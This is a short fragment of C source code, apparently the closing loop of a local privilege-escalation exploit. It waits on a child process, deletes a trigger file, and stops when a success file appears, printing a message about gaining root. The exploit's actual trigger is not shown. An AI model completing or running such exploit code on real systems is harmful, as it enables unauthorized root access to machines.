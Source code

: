```c
                        wait(NULL);
                }

                // Delete FN_GO
                unlink(FN_GO);

                // If FN_SUCCESS exists, stop looping
                if (access(FN_SUCCESS, F_OK) == 0) {
                        puts("EoP successful. Check /win and enjoy r00t :)");
                        break;
                }
        }

        return 0;
}
```